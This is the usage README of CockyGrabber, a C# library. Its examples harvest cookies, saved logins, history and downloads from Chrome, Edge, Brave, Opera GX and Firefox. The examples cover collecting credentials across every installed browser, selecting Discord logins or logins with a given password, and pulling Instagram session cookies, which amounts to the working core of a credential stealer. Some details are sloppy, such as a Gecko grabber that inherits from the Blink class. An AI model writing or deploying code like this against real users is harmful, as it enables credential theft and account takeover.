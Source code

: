 # Usage

## Importing CockyGrabber

*Note:* You will need to add `System.Data.SQLite` to your project. The package can be downloaded from the [official website](https://system.data.sqlite.org/) or from [NuGet](https://www.nuget.org/packages/System.Data.SQLite/). (In future versions of CockyGrabber, this won't be necessary)

```cs
using CockyGrabber;
using CockyGrabber.Grabbers;
```

## Grabbing Information

### Grabbing Information from Chromium/Blink-based Browsers

Example that shows how to grab Chrome cookies using the `ChromeGrabber`:

```cs
ChromeGrabber grabber = new ChromeGrabber(); // Create Grabber
var cookies = grabber.GetCookies(); // Collect all Cookies with GetCookies()

// Print the Hostname, Name, and Value of every cookie:
foreach (Blink.Cookie cookie in cookies) // Chrome is Blink based so it uses Blink.Cookie
{
    string cookieHostname = cookie.HostKey;
    string cookieName = cookie.Name;
    string cookieValue = cookie.EncryptedValue;
    Console.WriteLine($"{cookieHostname}: {cookieName} = {cookieValue}");
}
```

*To collect browser information of any other Chromium/Blink-based browser just replace `ChromeGrabber` with `OperaGxGrabber`, `BraveGrabber`, or `EdgeGrabber`, and so on...*

### Grabbing Information from Gecko-based Browsers

Example that shows how to grab Chrome cookies using the `FirefoxGrabber`:

```cs
FirefoxGrabber grabber = new FirefoxGrabber(); // Create Grabber
var cookies = grabber.GetCookies(); // Collect all Cookies with GetCookies()

// Print Hostname, Name, and Value of every cookie:
foreach (Gecko.Cookie cookie in cookies) // Firefox is Gecko based so it uses Gecko.Cookie
{
    string cookieHostname = cookie.Host;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname}: {cookieName} = {cookieValue}");
}
```

CockyGrabber can also grab information like Logins, Downloads, Bookmarks and History:

```cs
(GRABBER) grabber = new (GRABBER); // Create Grabber

var bookmarks = grabber.GetBookmarks(); // Collect all Bookmarks with GetBookmarks()
var downloads = grabber.GetDownloads(); // Collect all Downloads with GetDownloads()
var logins = grabber.GetLogins(); // Collect all Logins with GetLogins()
var history = grabber.GetHistory(); // Collect all History with GetHistory()
```

## Grabbing data from multiple Browsers

CockyGrabber provides a `UniversalGrabber` which can be used to grab Cookies, Logins, and such from multiple Browsers.</br>
Here is an example showing how to grab stuff from all Chromium/Blink-browsers:

```cs
UniversalGrabber grabber = new UniversalGrabber(); // Create Grabber

var cookies = grabber.GetAllBlinkCookies(); // Collect the Cookies from all Chromium/Blink based browsers
var logins = grabber.GetAllBlinkLogins(); // Collect the Logins from all Chromium/Blink based browsers
var bookmarks = grabber.GetAllBlinkBookmarks(); // Collect the Bookmarks from all Chromium/Blink based browsers
var history = grabber.GetAllBlinkHistory(); // Collect the History from all Chromium/Blink based browsers
var downloads = grabber.GetAllBlinkDownloads(); // Collect the Downloads from all Chromium/Blink based browsers
```

Gecko-based browsers are not very different from Chromium/Blink-based browsers, so you can use the same code to get data from them:

```cs
UniversalGrabber grabber = new UniversalGrabber(); // Create Grabber

var cookies = grabber.GetAllGeckoCookies(); // Collect the Cookies from all Gecko based browsers
var logins = grabber.GetAllGeckoLogins(); // Collect the Logins from all Gecko based browsers
var bookmarks = grabber.GetAllBlinkBookmarks(); // Collect the Bookmarks from all Gecko based browsers
var history = grabber.GetAllGeckoHistory(); // Collect the History from all Gecko based browsers
var downloads = grabber.GetAllBlinkDownloads(); // Collect the Downloads from all Gecko based browsers
```

## Getting specific data by Headers

Say you want to grab the logins of a specific hostname/website; how would you do it?
You use the `GetLoginsBy()` Method!

Here is an example with the `EdgeGrabber`:

```cs
EdgeGrabber grabber = new EdgeGrabber(); // Create Grabber

// Collect all Discord Logins:
var discord_logins = grabber.GetLoginsBy(Blink.LoginHeader.origin_url, "https://discord.com/login");

// Collect the Logins that have the same password as you specified:
var logins_by_pswd = grabber.GetLoginsBy(Blink.LoginHeader.password_value, "password123");
```

Obviously you can also grab other specific data:

```cs
// Collect all Instagram Cookies:
var instagram_cookies = grabber.GetCookiesBy(Blink.CookieHeader.host_key, ".instagram.com");

// Collect all Google Bookmarks:
var google_bookmarks = grabber.GetBookmarksBy(Blink.CookieHeader.url, "https://google.com");

// ...
```

There are more headers you can use, but the ones I have listed are the most common ones.

> *(A documentation for the Item Headers such as `Blink.LoginHeader` and `Gecko.CookieHeader` will come in near future)*

## Catching Exceptions

CockyGrabber also gives you the option to catch unexpected occurrences like errors:

```cs
try
{
    // Grab them Cookies and Logins:
    var c = grabber.GetCookies();
    var l = grabber.GetLogins();
}
catch (GrabberException e)
{
    // Check Error:
    switch (e.Error)
    {
        case GrabberError.CookiesNotFound: // Cookies weren't found
            Console.WriteLine("ERROR! The Cookie DB couldn't be found!");
            break;
        case GrabberError.LoginsNotFound: // Logins weren't found
            Console.WriteLine("ERROR! The Login DB couldn't be found!");
            break;
        case GrabberError.LocalStateNotFound: // Key wasn't found
            Console.WriteLine("ERROR! The 'Local State' file couldn't be found!");
            break;
    }
    Console.WriteLine("Original Exception: " + e);
}
```

## Adding Custom Browsers

If you want to add support for a new browser, you can do it by adding a new grabber class that inherits from `BlinkGrabber` or `GeckoGrabber`. After crating the class you will need to specify the browser's paths to the databases and files.

### CustomBlinkGrabber Example

```cs
public class CustomBlinkGrabber : BlinkGrabber
{
    public override string CookiePath
    {
        get
        {
            // This is the path to the Cookie Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Cookies";
        }
    }
    public override string LocalStatePath
    {
        get
        {
            // This is the path to the 'Local State' file of the browser
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Local State";
        }
    }
    public override string LoginDataPath
    {
        get
        {
            // This is the path to the Login Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Login Data";
        }
    }
    public override string HistoryPath
    {
        get
        {
            // This is the path to the History Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\History";
        }
    }
    public override string BookmarkPath
    {
        get
        {
            // This is the path to the Bookmark Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Bookmarks";
        }
    }
}
```

### CustomGeckoGrabber Example

```cs
public class CustomGeckoGrabber : BlinkGrabber
{
    public override string ProfilesPath
    {
        get
        {
            // This is the path to the Profiles folder of the browser
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Profiles";
        }
    }
}
```
